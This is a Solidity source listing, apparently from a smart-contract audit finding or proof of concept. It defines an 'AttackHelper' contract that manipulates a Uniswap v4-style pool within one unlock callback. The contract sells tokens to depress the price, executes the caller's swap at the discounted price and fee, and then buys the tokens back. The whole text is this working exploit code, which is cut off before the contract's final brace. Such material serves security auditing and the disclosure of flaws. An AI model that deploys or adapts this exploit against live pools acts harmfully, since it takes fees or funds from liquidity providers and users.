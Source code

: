 ```solidity
contract AttackHelper is IUnlockCallback {
    using StateLibrary for IPoolManager;
    using TransientStateLibrary for IPoolManager;
    using CurrencySettler for Currency;

    IPoolManager public immutable manager;
    PoolKey public  poolKey;

    struct CallbackData {
        address sender;
        IPoolManager.SwapParams params;
    }

    constructor(IPoolManager _manager, PoolKey memory _poolKey) {
        manager = _manager;
        poolKey = _poolKey;
    }

    function swap(
        IPoolManager.SwapParams memory params
    ) external {
        manager.unlock(abi.encode(CallbackData(msg.sender, params)));
    }

    function unlockCallback(bytes calldata rawData) external returns (bytes memory) {
        CallbackData memory data = abi.decode(rawData, (CallbackData));

        // 1. Sell some collectionTokens to decrease price
        IPoolManager.SwapParams memory sellParam = IPoolManager.SwapParams({
            zeroForOne: false, // unflippedToken -> WETH
            amountSpecified: -10 ether, // exact input
            sqrtPriceLimitX96: TickMath.MAX_SQRT_PRICE - 1
        });
        manager.swap(poolKey, sellParam, "");

        // 2. Swap with pool fee at a discount price
        manager.swap(poolKey, data.params, "");

        // 3. Buy exact collectionTokens of step1 to increase price back
        IPoolManager.SwapParams memory buyParam = IPoolManager.SwapParams({
            zeroForOne: true, // WETH -> unflippedToken
            amountSpecified: 10 ether, // exact input
            sqrtPriceLimitX96: TickMath.MIN_SQRT_PRICE + 1
        });
        manager.swap(poolKey, buyParam, "");

        int256 delta0 = manager.currencyDelta(address(this), poolKey.currency0);
        int256 delta1 = manager.currencyDelta(address(this), poolKey.currency1);

        if (delta0 < 0) {
            poolKey.currency0.settle(manager, data.sender, uint256(-delta0), false);
        }
        if (delta1 < 0) {
            poolKey.currency1.settle(manager, data.sender, uint256(-delta1), false);
        }
        if (delta0 > 0) {
            poolKey.currency0.take(manager, data.sender, uint256(delta0), false);
        }
        if (delta1 > 0) {
            poolKey.currency1.take(manager, data.sender, uint256(delta1), false);
        }
        return abi.encode("");
    }
```